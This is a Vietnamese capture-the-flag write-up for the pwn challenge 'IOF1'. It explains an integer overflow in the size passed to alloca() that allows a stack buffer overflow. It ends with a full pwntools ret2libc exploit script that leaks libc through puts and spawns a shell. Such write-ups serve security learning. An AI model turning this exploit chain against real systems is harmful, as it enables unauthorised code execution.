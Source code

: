 <details>
<summary>IOF1 </summary>


**1. Tóm tắt đề:**

- Một file `iof1`
- Một file `ld-2.31.so`
- Một file `libc.so.6`
- Một file `source.c`

**2. Ý tưởng :**

- Đầu tiên ta sài `pwninit` để link với `libc` và `linker` đề cho
- Tiếp theo ta đọc source.

![](https://i.imgur.com/4DzdGRt.png)

- Đề tạo biến `n` thuộc kiểu `unsigned long int`, sau đó gọi hàm `alloca()` để tạo buffer trên stack kế tiếp gọi hàm `read_str` để ghi vào buffer.
- Kế tiếp ta `checksec` để tìm hướng giải. Nhận thấy NX enable, PIE và Canary đều tắt do đó bài này mình thấy chỉ có giải bằng ret2libc

![](https://i.imgur.com/5O0tnvD.png)

- Để ret2libc thì hướng duy nhất là phải cho phải overflow `buffer` bằng hàm `read_str`. Hướng duy nhất để thực hiện là phải sài int overflow `n*8 ` ở hàm `alloca`
- Ta check thử manpage của alloca coi argument của nó nhận range là bao nhiêu để overflow cho đúng

![](https://i.imgur.com/H2lG0wy.png)

- Nó argument của nó thuộc kiểu `size_t`, ta google tiếp xem size_t là gì thì biết được nó đại khái đại diện cho kiểu dữ liệu lớn nhất mà máy mình chịu được. Vậy `size_t` là 8 byte đối với máy 64 bit (số không dấu)

![](https://i.imgur.com/3Nwi2pH.png)


- Kế tiếp ta tìm range của `unsigned long int ` cũng như range của số 8 byte không dấu, lên document ở đây đọc thì ta được thông tin như sau : 

![](https://i.imgur.com/JZJIo3E.png)

- Để biết chính xác mình viết code test trên máy mình. 

![](https://i.imgur.com/eRRubsM.png)

- Vậy nếu ta nhập n lớn hơn số trên thì sẽ bị overflow. Argument của hàm alloca() chỉ nhận 8 byte do đó nếu ta nhập n sao cho khi nhân 8 mà kết quả lớn hơn 8 byte thì nó chỉ nhận 8 byte cuối. Ta sẽ lợi dụng nó để overflow.
- Giả sử mình muốn kết quả của `n*8` là `0x10000000000000008` (mình chọn số này vì nó là số nhỏ nhất khi bị overflow mà chia hết cho 8, chọn khác cũng được) khi đó bị overflow hàm `alloca` sẽ nhận `0x0000000000000008` vậy ta chia 8 để biết n cần nhập là bao nhiêu. Tính đúng ta được kết quả là `0x2000000000000000` tức là `2305843009213693952`.
- Vậy kế tiếp ta chỉ cần viết script để ret2libc.
```python
from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

p = process(exe.path) 
p.sendlineafter(b'> ',b'2305843009213693952')

pop_rdi = 0x00000000004013e3 
payload = b'A'*40 +  p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'Enter your secret: ',payload) 
leak = p.readline()[:-1]
leak = u64(leak.ljust(8,b'\00'))

libc.address = leak - 492448 
p.sendlineafter(b'> ',b'2305843009213693952')

payload = b'A'*40 + p64(pop_rdi)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']) 
p.sendlineafter(b'Enter your secret: ',payload) 
p.interactive() 
```

- Chạy script trên ta có được shell.

</details>

